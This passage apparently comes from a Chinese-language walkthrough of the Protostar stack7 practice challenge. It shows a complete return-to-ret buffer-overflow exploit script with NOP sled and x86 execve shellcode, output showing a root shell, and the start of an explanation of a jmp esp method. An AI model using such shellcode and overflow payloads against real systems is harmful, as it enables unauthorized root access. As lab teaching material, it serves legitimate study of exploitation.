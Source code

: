 ```shell
$ cat stack7_r2t.py
import struct

padding = "A" * 80
retaddr = struct.pack("I", 0x08048544) # ret指令的地址
ret2 = struct.pack("I", 0xbffffd1c+32) # esp+32
slide = "\x90" * 50 # nop块
shellcode = "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"
print padding + retaddr + ret2 + slide + shellcode
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA # 后接一堆乱码
$ (python stack7_rop.py; cat) | /opt/protostar/bin/stack7
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA # 后接一堆乱码       
id
uid=0(root) gid=0(root) groups=0(root)
```

<img src=".\stack7-analysis-5.png" style="zoom:80%;" />



### 方法二：基于“esp跳板”的方法

在程序汇编代码中寻找`jmp esp`，将它对应的地址覆写到`getpath()`的返回地址。函数ret后，该地址会被赋给eip，eip执行`jmp esp`指令后，会跳转到esp的位置。如图所示，我们只需要将指定shellcode覆写到下图esp指向的位置。

